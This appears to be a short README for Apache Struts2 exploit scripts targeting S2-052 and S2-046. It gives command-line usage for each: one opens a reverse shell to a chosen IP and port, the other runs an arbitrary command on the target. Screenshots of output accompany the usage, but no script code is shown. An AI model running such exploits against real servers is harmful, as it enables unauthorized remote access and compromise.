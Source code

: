 # Apache-Struts2

s2-052 Usage : python s2-052-exp.py http://127.0.0.1/orders/ ip port #反弹目标主机IP 端口

<img width="940" alt="WechatIMG8" src="https://user-images.githubusercontent.com/19663680/183552139-2f18e2c0-5e2e-4fde-addc-caebf95c036e.png">

<img width="627" alt="WechatIMG9" src="https://user-images.githubusercontent.com/19663680/183552207-f48de5e1-f7f1-4146-bf5c-e535fb17cf6b.png">


s2-046 Usage : python s2-046-exp.py http://127.0.0.1/doUpload.action command

<img width="919" alt="WechatIMG10" src="https://user-images.githubusercontent.com/19663680/183556185-f0cae8ce-ab0d-4d51-892b-c08957c9166a.png">
